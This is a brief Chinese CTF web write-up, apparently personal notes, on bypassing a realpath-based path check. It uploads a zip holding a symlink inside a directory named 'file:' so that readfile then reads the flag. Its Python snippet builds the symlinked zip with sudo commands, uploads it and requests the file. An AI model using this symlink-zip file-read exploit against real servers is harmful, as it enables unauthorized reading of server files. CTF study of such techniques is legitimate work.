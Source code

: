 tags:: CTFWEB/Zip

- # 思路
	- 使用zip创建软链接欺骗realpath函数，让realpath将一个伪协议解析成一个路径，从而使用伪协议操纵readfile函数读取flag
- # 欺骗realpath
	- realpath: 不会解析伪协议，会将软链接解析成实际的路径
	- readfile: 会解析伪协议
	- 可以创建一个`file:`文件夹，其中放置一个软链接`flag.txt`指向`/var/www/html/index.php`，欺骗realpath将`file:///flag.txt`解析成`/var/www/html/index.php`，从而绕过正则匹配
- # zip软链接构造
	- 参考[[CTFWEB/Zip]]
	- ```python
	  shell.exec(
	      "sudo mkdir /var/www/html; sudo touch index.php; sudo mkdir 'file:'; sudo ln -s /var/www/html/index.php file:/flag.txt; zip file.zip --symlinks file:/flag.txt"
	  )
	  with open("file.zip", "rb") as f:
	      r = base_post(url, files={"file": ("a.zip", f)})
	  
	  shell.exec("rm file.zip; sudo rm /var/www/html/index.php; sudo rm file:/flag.txt; sudo rm -d file:/")
	  
	  r = base_get(url, params = {
	      "file": "file:///flag.txt"
	  })
	  print(r.text)
	  
	  ```